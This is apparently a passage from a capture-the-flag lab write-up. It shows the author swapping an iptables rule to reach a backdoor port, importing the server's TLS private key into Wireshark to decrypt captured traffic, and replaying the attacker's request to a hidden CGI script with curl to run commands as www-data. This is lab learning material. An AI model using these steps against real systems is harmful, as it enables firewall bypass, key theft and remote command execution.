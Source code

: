 ### Replacing the iptables rule

This must be the iptables rule implemented to stop attackers from accessing the backdoor.
```
1    DROP       tcp  --  anywhere             anywhere             tcp dpt:41312
```

Replacing it to be able to access it.

```console
jack@ubuntu:~$ sudo /usr/sbin/iptables -R INPUT 1 -p tcp -m tcp --dport 41312 -j ACCEPT
jack@ubuntu:~$ sudo /usr/sbin/iptables -L --line-numbers
Chain INPUT (policy ACCEPT)
num  target     prot opt source               destination         
1    ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:41312
...
```

Now, it is possible to access `https://10.10.230.27:41312/`, and its certificate has the same hostname as the one in the pcap.

### Decrypting the traffic

We already know that the https server uses the key at `/etc/apache2/certs/apache.key` from `/etc/apache2/sites-enabled/000-default.conf`.

```
...
SSLCertificateKeyFile /etc/apache2/certs/apache.key
...
```
{: file="/etc/apache2/sites-enabled/000-default.conf" }

User `jack` can read the key. So, downloading the key and importing it to `Wireshark` via `Edit->Preferences->Protocols->TLS`.

![Importing key to Wireshark](wireshark_importing_key.webp){: width="700" height="500" }

After the decryption, traffic shows attackers were able to run commands by making a request to `/cgi-bin/5UP3r53Cr37.py`.

![Attacker's request](wireshark_attacker_request.webp){: width="700" height="450" }

### Getting RCE as www-data

By making the same request as attackers, it is possible to execute commands.

```console
$ curl -k -s 'https://10.10.230.27:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id'

<h2>uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)
<h2>
```

Using this RCE to get a shell.
